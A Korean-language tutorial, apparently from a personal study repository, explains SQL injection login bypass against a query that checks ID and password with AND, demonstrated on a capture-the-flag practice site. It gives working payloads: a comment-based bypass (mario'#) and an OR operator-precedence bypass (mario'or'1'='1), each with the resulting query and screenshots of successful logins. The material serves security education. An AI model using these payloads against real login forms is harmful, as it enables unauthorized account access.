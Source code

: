 # 식별 & 인증 동시(SQL Injection)

SQL Injection 기법 중에서 식별과 인증을 동시에 하는 케이스.

하단의 query문을 사용한다는 것을 가정하고 진행하는 해킹 기법이다.

ex)
```
select * from member where id='' and pass=''
```

and 논리 연산자를 사용해서 ID의 여부와 password가 정확한지 동시에 인증을 하는 것이다.
</br>
</br>
</br>


http://ctf.segfaulthub.com:1019/   
이 링크는 SQL Injection 기법을 테스트해볼 수 있는 사이트이다.
</br>
</br>
</br>
로그인을 진행할 때   
서버측에서 준비한 sql 쿼리문이 and 를 사용했다고 가정하고   
```
select * from member where id='' and pass=''
```
</br>

아이디와 비밀번호를 입력한다면 
```
id : normaltic / pw : qqqq   
```
</br>

id와 pw 값을 '' '' 사이에 넣어서 검색한다.
```
select * from member where id='normaltic' and pass='qqqq'
```
</br>
</br>

우리는 and 를 사용해서 query문을 작성했다는 것을 가정하고 진행하기에   
SQL Injection 에 대해서 여러 가지 방법을 생각해볼 수 있다.
</br>
</br>
</br>

# \# (주석)
아이디에 주석처리할 수 있는 문구를 넣어 인증을 우회하는 방식.

id : mario'# 입력한다면
```
id : mario'#
pw : qqqq
```

```
select * from member where id='mario'#' and pass='qqqq'   
```
→
```php
select * from member where id='mario'#' and pass='qqqq'
```
이와같이 # 뒷부분은 주석처리가 되는 것을 알 수 있다.

주석처리 된 부분 
```py
#' and pass='qqqq'
```
비밀번호를 검증할 수 있는 구문이 사라진다.
</br>
</br>

그렇기에
```
select * from member where id='mario'
```
까지만 실행되므로   
![1](https://user-images.githubusercontent.com/106296883/232513782-2f086dcf-7ffa-41e4-a776-2aa1bc158318.PNG)

mario에 관한 정보를 확인할 수 있다.

위 mario의 정보를 받아 밑의 인증 구문을 우회할 수 있다.
```
if( 그 결과가 존재하면 ){
    로그인 성공
}else{
    로그인 실패
}
```
결과가 존재하기에 로그인을 성공시킬 수 있다.

![2](https://user-images.githubusercontent.com/106296883/232516701-2a7803a8-05a9-4d10-9280-41e45df8077d.PNG)

</br>
</br>
</br>

# or

or 논리 연산자를 id 입력칸에 넣어 논리 연산자의 우선순위를 이용해 공격하는 방식이다. 
</br>
</br>

or 와 and 의 연산 우선순위를 먼저 알아야 한다.    
## 동작하는 과정 
```
and → or 

and 연산자가 우선적으로 처리를 하고,
or 연산자가 그 뒤에 처리된다.
```
</br>
</br>
</br>

아이디에 mario'or'1'='1'# 라고 입력을 한다면 
```
id : mario'or'1'='1
pw : 321qweq
```
```
select * from member where id='mario' or '1'='1' and pass='321qweq'
```
→
```
select * from member where id='mario' or ('1'='1' and pass='321qweq')
```
</br>

## and 우선 수행 (and 는 둘 다 TRUE 여야 TRUE 를 반환한다.)   
('1'='1' and pass='321qweq') 부분이 먼저 수행이 된다.
```
('1'='1' and pass='321qweq')


위 부분은 
'1'='1' 부분은 TRUE 이지만,
password='321qweq' 의 인증이 FALSE 이기 때문에 
FALSE 가 된다.
```
</br>

## or 수행 (or 은 둘 중에 하나만 TRUE 여도 TRUE 를 반환한다.)
```
select * from member where id='mario' or (FALSE)

select * from member where id='mario' = TRUE (정보가 존재하기 때문에)
TRUE or (FALSE) = TRUE
```

```
if( 그 결과가 TRUE 라면 ){
    로그인 성공
}else{
    로그인 실패
}
```
결과가 존재하기에 로그인을 성공시킬 수 있다.

```
```
```
